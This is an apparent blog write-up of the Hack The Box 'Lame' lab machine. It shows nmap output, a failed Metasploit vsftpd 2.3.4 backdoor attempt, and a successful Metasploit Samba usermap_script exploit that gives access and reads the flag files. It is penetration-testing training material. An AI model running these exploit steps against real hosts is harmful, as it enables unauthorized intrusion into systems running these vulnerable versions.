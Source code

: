 ```yaml
---
layout: post
title: Hack The Box Lame
---
```

Brief:
Lame is a retired machine that is recommended if you want to do the OSCP exam. My focus was with this was to get through as far as I can without help and then check what to do next if I got stuck.


# Lame
10.10.10.3


nmap -sV -sC -oA Lame 10.10.10.3
```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-04 09:36 EDT
Nmap scan report for 10.10.10.3
Host is up (0.21s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.14
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 3h55m54s, deviation: 0s, median: 3h55m54s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-09-04T09:33:17-04:00
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.83 seconds
```
Port 21 ftp is open
ncftp 10.10.10.3

ls
ls -lah
pwd
cd ..

exploring it there is nothing.
Port 21 is running vsftpd 2.3.4
Let’s see if there’s any exploits.

searchsploit vsftpd 2.3.4

vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                    | exploits/unix/remote/17491.rb

```
msfdb start
msfconsole

search vsftpd 2.3.4

use exploit/unix/ftp/vsftpd_234_backdoor 

show options

set RHOST 10.10.10.3

exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.

[*] Exploit completed, but no session was created.

back

exit
```
Exploit we tried didn’t work.
Seeing that port 445 is open and is known to be vulnerable we’ll look into that.
It is running Samba 3.0.20

searchsploit Samba 3.0.20

Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)            
```
msfconsole

search samba 3.0.20

use exploit/multi/samba/usermap_script 

show options

exploit

Now we have access

cd root
cat root.txt

cd home
cd makis
cat user.txt
```

Tools used:
nmap
searchsploit
metasploit


